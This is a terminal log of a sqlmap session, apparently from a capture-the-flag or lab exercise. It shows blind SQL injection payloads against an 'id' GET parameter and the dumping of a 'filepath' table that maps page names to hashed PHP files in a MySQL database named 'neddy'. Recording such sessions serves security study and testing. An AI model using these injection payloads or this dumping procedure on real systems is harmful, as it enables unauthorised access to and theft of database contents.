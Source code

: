 ```
|___|_  ["]_|_|_|__,|  _| 
      |_|V...       |_|   http://sqlmap.org                                                                            
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program\

[*] starting @ 17:55:21 /2019-08-23/
[17:55:21] [INFO] resuming back-end DBMS 'mysql'
[17:55:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:                       
---        
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=465' AND 6602=6602 AND 'YxJr'='YxJr
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=465' AND SLEEP(5) AND 'APKt'='APKt
---
[17:55:22] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[17:55:22] [INFO] fetching columns for table 'filepath' in database 'neddy'
[17:55:22] [INFO] retrieved: 2
[17:55:27] [INFO] retrieving the length of query output
[17:55:27] [INFO] retrieved: 4
[17:55:36] [INFO] retrieved: name
[17:55:36] [INFO] retrieving the length of query output
[17:55:36] [INFO] retrieved: 4
[17:55:44] [INFO] retrieved: path
[17:55:44] [INFO] fetching entries for table 'filepath' in database 'neddy'
[17:55:44] [INFO] fetching number of entries for table 'filepath' in database 'neddy'
[17:55:44] [INFO] retrieved: 3
[17:55:49] [INFO] retrieving the length of query output
[17:55:49] [INFO] retrieved: 36
[17:56:25] [INFO] retrieved: 47c1ba4f7b1edf28ea0e2bb250717093.php
[17:56:25] [INFO] retrieving the length of query output
[17:56:25] [INFO] retrieved: 5
[17:56:35] [INFO] retrieved: about
[17:56:35] [INFO] retrieving the length of query output
[17:56:35] [INFO] retrieved: 36
[17:57:10] [INFO] retrieved: 0f710bba8d16303a415266af8bb52fcb.php
[17:57:10] [INFO] retrieving the length of query output
[17:57:10] [INFO] retrieved: 7
[17:57:21] [INFO] retrieved: contact
[17:57:21] [INFO] retrieving the length of query output
[17:57:21] [INFO] retrieved: 36
[17:57:55] [INFO] retrieved: 787c75233b93aa5e45c3f85d130bfbe7.php
[17:57:55] [INFO] retrieving the length of query output
[17:57:55] [INFO] retrieved: 4
[17:58:05] [INFO] retrieved: main
Database: neddy
Table: filepath
[3 entries]
+---------+--------------------------------------+
| name    | path                                 |
+---------+--------------------------------------+
| about   | 47c1ba4f7b1edf28ea0e2bb250717093.php |
| contact | 0f710bba8d16303a415266af8bb52fcb.php |
| main    | 787c75233b93aa5e45c3f85d130bfbe7.php |
+---------+--------------------------------------+

```